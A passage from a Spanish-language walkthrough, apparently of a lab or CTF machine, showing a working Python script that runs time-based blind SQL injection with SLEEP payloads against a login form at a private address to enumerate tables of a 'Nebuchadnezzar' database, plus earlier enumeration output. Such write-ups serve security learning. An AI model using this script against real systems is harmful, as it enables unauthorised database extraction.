 Letra por letra, comprueba si el carácter coincide.

Si el servidor tarda >0.5s, considera que ha acertado y guarda la letra.


```
python script.py                                                                                                                                                                         
[*] Enumerando nombres de bases de datos con inyección ciega de tiempo...

[+] Base de datos #0: information_schema
[+] Base de datos #1: sion
[+] Base de datos #2: mysql
[+] Base de datos #3: performance_schema
[+] Base de datos #4: Nebuchadnezzar
```

Ahora enumeramos las tablas de la base de datos Nebuchadnezzar:

```bash
import requests
import time

TARGET = "http://192.168.1.45/login.php"
DELAY = 0.5
MAX_LEN = 20
MAX_TABLES = 10  # Cantidad de tablas que quieres enumerar

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

print("[*] Enumerando nombres de tablas de la base de datos 'Nebuchadnezzar'...\n")

for table_index in range(MAX_TABLES):
    table_name = ""
    for i in range(1, MAX_LEN + 1):
        found = False
        for ascii_code in range(32, 127):  # Caracteres imprimibles
            payload = (
                f"' OR IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables "
                f"WHERE table_schema='Nebuchadnezzar' LIMIT {table_index},1),{i},1))={ascii_code},SLEEP({DELAY}),0)-- -"
            )
            data = {
                'user': payload,
                'pass': 'x'
            }

            start = time.time()
            requests.post(TARGET, data=data, headers=headers)
            elapsed = time.time() - start

            if elapsed > DELAY:
                table_name += chr(ascii_code)
                print(f"\r[+] Tabla #{table_index}: {table_name}", end='', flush=True)
                found = True
                break

        if not found:
            break
    if table_name:
        print()  # Salto de línea después del nombre completo
```
```
python script_tablas.py                                                                                                                                                                   
```
